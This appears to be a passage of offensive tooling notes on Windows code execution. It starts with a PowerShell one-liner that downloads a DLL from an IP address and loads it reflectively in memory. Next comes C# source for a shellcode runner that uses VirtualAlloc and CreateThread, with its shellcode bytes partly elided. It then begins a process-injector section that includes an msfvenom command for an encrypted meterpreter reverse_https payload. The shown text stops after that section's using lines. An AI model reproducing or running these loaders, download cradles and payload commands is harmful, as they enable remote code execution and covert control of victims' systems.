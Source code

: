     //trigger: powershell [System.Reflection.Assembly]::Load((New-Object System.Net.WebClient).DownloadData('http://192.168.45.224/ClassLibrary1_32_thread.dll')).GetType('ClassLibrary1.Class1').GetMethod('runner').Invoke(0, $null)

    ###########Code:#############

    using System;
    using System.Collections.Generic;
    using System.Linq;
    using System.Text;
    using System.Threading.Tasks;
    using System.Diagnostics;
    using System.Runtime.InteropServices;

    namespace ClassLibrary1
    {
        public class Class1
        {
            [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
            static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint
        flAllocationType, uint flProtect);
            [DllImport("kernel32.dll")]
            static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
        IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
            [DllImport("kernel32.dll")]
            static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32
        dwMilliseconds);
            public static void runner()
            {
                byte[] buf = new byte[1166] {0xfc,0xe8,0xc1,0x00,0x00,0x00,
    ..................
                int size = buf.Length;
                IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
                Marshal.Copy(buf, 0, addr, size);
                IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0,
            IntPtr.Zero);
                WaitForSingleObject(hThread, 0xFFFFFFFF);
            }
    }
    }

#### PS Reflective Loading Injector:

    //injects into another process
    //trigger: powershell [System.Reflection.Assembly]::Load((New-Object System.Net.WebClient).DownloadData('http://192.168.45.224/ClassicProcessInjectorDLL.dll')).GetType('ClassicProcessInjectorDLL.MyClass').GetMethod('injector').Invoke(0, $null)

    ###########Injector Code:#############
    // msfvenom -p windows/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key a

    using System;
    using System.Diagnostics;
    using System.Runtime.InteropServices;
